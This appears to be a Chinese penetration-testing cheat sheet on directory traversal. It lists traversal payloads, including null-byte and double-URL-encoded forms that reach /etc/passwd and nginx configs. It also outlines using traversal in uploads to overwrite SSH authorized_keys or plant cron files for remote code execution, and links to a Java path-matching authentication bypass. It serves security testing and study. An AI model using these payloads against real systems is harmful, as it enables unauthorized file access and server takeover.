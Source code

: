 ## **目录穿越，各种触发格式**
```
../
/../
/static../
/admin/admin.php?file=..././..././..././..././/etc/nginx/sites-enabled/site.conf
/.%00.%2F
/..%5c..%5c

包含 %00，这在文件路径中是不合法的。在大多数操作系统中，
空字符（null byte）用于表示字符串的结束，
如果这个字符串被错误地解释为文件路径，它实际上可能不会形成一个有效的路径。


url编码绕过
.   =>  %2e
/   =>  %2f
% => %25  (双重URL编码)

..%2f..%2f..%2fetc/passwd
..%252f..%252f..%252fetc/passwd  
```

^
## **目录穿越利用场景**
文件下载目录穿越。
文件上传目录穿越，穿越覆盖ssh公钥/root/.ssh/authorized_keys。


文件上传可以覆盖的情况下，也可以直接覆盖定时任务的文件（像redis定时任务rce那样，只不过我们是覆盖，redis是写入）
Centos 的定时任务文件在 /var/spool/cron/<username>
Ubuntu 的定时任务文件在 /var/spool/cron/crontabs/<username>

以centos为例

那么我们就可以覆盖/var/spool/cron/root这个文件实现rce

但是这里我们不能覆盖，只能增加文件

我们可以增加其他用户的定时任务，因为默认情况下是没有任何文件的，就算是有也大概率是root

![notion image](https://github.com/user-attachments/assets/44af5b24-45ad-4504-9ffb-df164cb785a0?t=14c8c9d3-e648-8079-9970-e44f1a4e093d)

那么我们可以通过上传文件/var/spool/cron/daemon（找到一个一般Linux都有的用户名）从而实现定时任务rce，只不过拿到的权限不是root




^
## **路匹配鉴权绕过**
![](.topwrite/assets/image_1742542529997.png)
<https://blog.chain0x0.com/article/java%E8%B7%AF%E5%8C%B9%E9%85%8D%E6%9D%83%E9%99%90%E7%BB%95%E8%BF%87>